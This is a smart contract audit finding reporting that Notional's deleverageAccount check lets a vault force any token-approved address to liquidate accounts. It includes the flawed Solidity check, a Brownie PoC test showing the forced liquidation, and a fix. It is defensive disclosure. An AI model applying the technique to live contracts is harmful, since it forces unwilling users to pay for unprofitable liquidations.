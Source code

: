 Arbitrary-Execution

high

# When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Summary
When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Vulnerability Detail
When the `ONLY_VAULT_DELEVERAGE` flag is set, only the vault address itself can call `deleverageAccount` in `VaultAccountAction.sol`. This is enforced via the `_authenticateDeleverage` function:

```solidity
// Authorization rules for deleveraging
if (vaultConfig.getFlag(VaultConfiguration.ONLY_VAULT_DELEVERAGE)) {
    require(msg.sender == vault, "Unauthorized");
} else {
    require(msg.sender == liquidator, "Unauthorized");
}
```

However, inside the `if` block when the `ONLY_VAULT_DELEVERAGE` flag is set, the `require` statement only checks that `msg.sender == vault`. This check is different from the other check in the `else` block as it does not check that the passed-in `liquidator` address is also the vault address. This means the vault address can supply _any_ address as the liquidator, which is ultimately the address that has to pay the token amount to liquidate an unhealthy vault account. As long as the unwilling liquidator meets the following conditions it can be forced to liquidate accounts by the vault:

1. The liquidator has enough of the underlying tokens necessary for liquidation.
2. The liquidator has approved the Notional proxy address with enough tokens necessary for liquidation.
3. The liquidator does not already have a position in the vault whose maturity is different from the one of the unhealthy account.

## Impact
A vault can force _any_ address to liquidate an unhealthy vault account so long as the above conditions are met, even if the liquidation would be unprofitable for the liquidator.

## Code Snippet
PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`):
```python3
def test_deleverage_account_from_vault_with_different_account(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True, ONLY_VAULT_DELEVERAGE=1)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    vaultAccount = accounts.at(vault.address, force=True)

    # The vault account does not have any DAI/cDAI that would be necessary to liquidate an account
    assert environment.token["DAI"].balanceOf(vaultAccount) == 0
    assert environment.cToken["DAI"].balanceOf(vaultAccount) == 0

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    assert accountInfo["maturity"] == 0

    # Notice how the liquidator here is accounts[2], but the caller is the vault account.
    # accounts[2] meets the 3 requirements:
    # 1) holds enough DAI/cDAI to liquidate an account
    # 2) has approved the Notional proxy to transfer tokens (maybe they are interacting with other
    #    functionality within Notional)
    # 3) does not currently hold a maturity in the vault
    environment.notional.deleverageAccount(
        accounts[1], vault.address, accounts[2], 1_000e8, True, "", {"from": vaultAccount}
    )

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    # accounts[2] now has a position in the vault due to the forced liquidation
    assert accountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider adding a check to `_authenticateDeleverage` to ensure that when the `ONLY_VAULT_DELEVERAGE` flag is set the vault account can only set the liquidator to be itself or its owner address.
